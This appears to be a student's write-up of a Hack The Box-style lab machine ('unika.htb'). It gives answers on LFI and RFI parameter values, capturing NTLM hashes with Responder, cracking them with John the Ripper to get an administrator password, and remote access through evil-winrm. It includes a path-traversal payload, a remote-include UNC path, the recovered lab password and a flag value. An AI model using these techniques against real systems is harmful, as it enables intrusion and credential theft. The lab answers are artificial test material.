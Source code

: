 Task 1
When visiting the web service using the IP address, what is the domain that we are being redirected to?
- unika.htb 
- ![[Pasted image 20250214093623.png]]![[Pasted image 20250214093550.png]]
Task 2 
Which scripting language is being used on the server to generate webpages? 
- php
- ![[Pasted image 20250214093704.png]]

Task 3 
What is the name of the URL parameter which is used to load different language versions of the webpage? 
- page
- ![[Pasted image 20250214093815.png]]

Task 4 
Which of the following values for the `page` parameter would be an example of exploiting a Local File Include (LFI) vulnerability: "french.html", "//10.10.14.6/somefile", "../../../../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe" 
- ../../../../../../../../windows/system32/drivers/etc/hosts ![[Pasted image 20250214094216.png]]

Task 5 
Which of the following values for the `page` parameter would be an example of exploiting a Remote File Include (RFI) vulnerability: "french.html", "//10.10.14.6/somefile", "../../../../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe" 
- //10.10.14.6/somefile ![[Pasted image 20250214094248.png]]

Task 6 
What does NTLM stand for? 
- New Technology Lan Manager 

Task 7 
Which flag do we use in the Responder utility to specify the network interface? 
- -I

Task 8
There are several tools that take a NetNTLMv2 challenge/response and try millions of passwords to see if any of them generate the same response. One such tool is often referred to as `john`, but the full name is what?. 
- John The Ripper 

Task 9 
What is the password for the administrator user?
- ![[Pasted image 20250214094632.png]]![[Pasted image 20250214094644.png]]
- Try to get some file?![[Pasted image 20250214100004.png]]
- 526915e2d91206f232cc7152582c135a![[Pasted image 20250214160452.png]]

- now John ![[Pasted image 20250214160802.png]]
- -- badminton

Task 10
We'll use a Windows service (i.e. running on the box) to remotely access the Responder machine using the password we recovered. What port TCP does it listen on?
- 
![[Pasted image 20250214161951.png]]

https://learn.microsoft.com/en-us/windows/win32/winrm/installation-and-configuration-for-windows-remote-management

https://www.kali.org/tools/evil-winrm/
![[Pasted image 20250214164203.png]]
![[Pasted image 20250214164411.png]]
![[Pasted image 20250214165154.png]]
![[Pasted image 20250214165327.png]]
- ea81b7afddd03efaa0945333ed147fac